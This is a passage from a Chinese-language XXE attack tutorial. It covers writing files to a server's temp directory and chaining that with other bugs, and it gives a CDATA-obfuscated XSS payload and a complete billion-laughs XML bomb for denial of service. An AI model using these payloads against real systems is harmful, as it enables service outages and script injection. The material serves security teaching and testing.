 需要注意的是整个过程极有可能在第二步中止，关键是操作文件的过程不能中断，这个[Github 仓库](https://github.com/GoSecure/xxe-workshop/tree/master/24_write_xxe/solution)可以起到很好的帮助作用。

一旦服务器下载了您的文件，您需要通过浏览临时目录找到它的位置。由于文件路径是随机的，因此无法提前预测。

[![img](assets/1698894099-96cb63032d24c028ea31c4300c7a04bd.png)](https://storage.tttang.com/media/attachment/2022/11/14/bbbffa69-b067-478d-be81-ecdbbe7345d9.png)

在临时目录中写入文件有助于升级另一个涉及路径遍历的漏洞（例如本地文件包含、模板注入、XSLT RCE、反序列化等）。

### [XSS](#toc_xss)

```plain
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```

### [DoS](#toc_dos)

#### [Billion Laugh Attack](#toc_billion-laugh-attack)

a billion laughs attack 是一种 denial-of-service（DoS）攻击，它主要作用于 XML 文档解析器。它也被称为指数实体扩展攻击，是一种名副其实的 XML 炸弹。该攻击通过创建一系列递归的 XML 定义，在内存中产生上十亿的特定字符串，从而导致 DoS 攻击。

原理为：构造恶意的 XML 实体文件以耗尽服务器可用内存，因为许多 XML 解析器在解析 XML 文档时倾向于将它的整个结构保留在内存中，上亿的特定字符串占用内存达到 GB 级，使得解析器解析非常慢，并使得可用资源耗尽，从而造成拒绝服务攻击。

```plain
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
